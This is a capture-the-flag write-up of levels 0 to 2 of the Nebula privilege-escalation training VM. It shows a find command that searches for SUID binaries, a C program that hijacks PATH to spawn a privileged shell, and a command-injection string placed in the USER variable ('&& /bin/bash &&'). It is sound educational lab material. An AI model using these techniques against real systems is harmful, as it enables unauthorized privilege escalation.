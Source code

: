 ```yaml
---
title: "Writeup: nebula (level 0 - level 2)"
date: 2020-12-16T14:42:58+08:00
draft: false
---
```


Nebula is a virtual machine that covers a variety of challenges about Linux privilege escalation, scripting language issues, and file system race conditions. It is available at [Exploit Exercises](https://exploit-exercises.lains.space/). 

<br>

## Level 0

Here is the description about Level 0. 

```
About
This level requires you to find a Set User ID program that will run as the “flag00”
account. You could also find this by carefully looking in top level directories in 
/ for suspicious looking directories.

Alternatively, look at the find man page.

To access this level, log in as level00 with the password of level00.
```

According to the hint, we need to find a program which can run as the "flag00". Basically, "find" is used to search for files in a directory hierarchy. Unix systems also provide the flag `-perm` to find the file based on its permission. 

First, login in as level00 and check the identifier information. 

![](https://github.com/chuang76/image/blob/master/00-1.PNG?raw=true)

As we mentioned above, we can search our target with find command. The slash (/) symbol means the root directory. To avoid the verbose error message, let's redirect stderr to a file called err (or you can redirect unwanted output to /dev/null). 

```
$ find / -type f -perm /u+s 2>err | grep "flag00"
```

Two files match the conditions. 

![](https://github.com/chuang76/image/blob/master/00-2.PNG?raw=true)

As you can see, the owner and the group of /bin/.../flag00 and /rofs/bin/.../flag00 is flag00 and level00, respectively. The vulnerability is that the permission of files was set to `rwsr-xr--`, that is, they are Set-UID programs. Since we logged in as level00, when we run the programs, we can get the privilege as the owner flag00. 

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/00-3.PNG?raw=true)

<br>

## Level 1

The description of Level 1 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. 
Files for this level can be found in /home/flag01.
```

The source code is also available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    gid_t gid;
    uid_t uid;
    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/usr/bin/env echo and now what?");
}
```

Let's run the program. The parameter "/usr/bin/env" is used to set the PATH. PATH is an environment variable in Unix-based systems, it tells the shell which directories to search for executable files. Then, the program displays the text "and now what". 

However, there is a vulnerability: flag01 is a Set-UID program while it contains a system() function. So it provides the attackers to execute an arbitrary shell command. 

![](https://github.com/chuang76/image/blob/master/01-1.PNG?raw=true)

Our goal is to execute system("/bin/bash"), but how can we modify the parameters of system function? Here is a solution: we can modify "echo" as an executable to execute the /bin/bash command. In other words, we deceive the program to make it run echo as an executable, instead of its original functionality (i.e., display the text). 

Here is our exploit program in the /home/level01 directory, compile it and name the executable as echo. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char** argv)
{
    gid_t gid = getegid();
    uid_t uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    system("/bin/bash");
}
```

Next, let's set the PATH variable. Actually, PATH is a list of directories that are walked through in the order. The colon (:) symbol is a separator. Hence, our prepared directory (i.e., the directory that contains executable echo) should be added before the original PATH variable ($PATH). So it should be 

```
$ export PATH=/home/level01:$PATH 
```

rather than

```
$ export PATH=$PATH:/home/level01
```

Run flag01 again, and get the flag. 

![](https://github.com/chuang76/image/blob/master/01-3.PNG?raw=true)

<br>

## Level 2

The description of Level 2 is provided as follows. 

```
There is a vulnerability in the below program that allows arbitrary programs 
to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. 
Files for this level can be found in /home/flag02.
```

The source code is available. 

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
    char *buffer;

    gid_t gid;
    uid_t uid;

    gid = getegid();
    uid = geteuid();

    setresgid(gid, gid, gid);
    setresuid(uid, uid, uid);

    buffer = NULL;

    asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
    printf("about to call system(\"%s\")\n", buffer);

    system(buffer);
}
```

The function getenv() is used to get environment variables. The function asprintf() is used to print to allocated string. It is identical to printf(), except that after executing asprintf(), the first parameter will point to a certain string. In our case, buffer is going to point to the string "/bin/echo %s is cool", and will be treated as the parameter of system() function. 

Again, our goal is to perform system("/bin/bash"). The program contains a vulnerability: it provides the user to feed an arbitrary string to the program. As a result, we can make "/bin/bash" as the value of the key USER. 

Wait, something smells fishy. The string "/bin/echo /bin/bash is cool" can not make system function run properly. Since we aren't able to control the characters "/bin/echo is cool", we can craft the string to run multiple commands. For example, 

```
"/bin/echo && /bin/bash && /bin/echo is cool"
           ^^^^^^^^^^^^^^^^^^^^^^^^^           the value of the key "USER"
```

Here is the flag. 

![](https://github.com/chuang76/image/blob/master/02-1.PNG?raw=true)

<br>

## Brief Summary 

The vulnerabilities of Set-UID programs:

1. user inputs
2. environment variables
3. system inputs controlled by users.

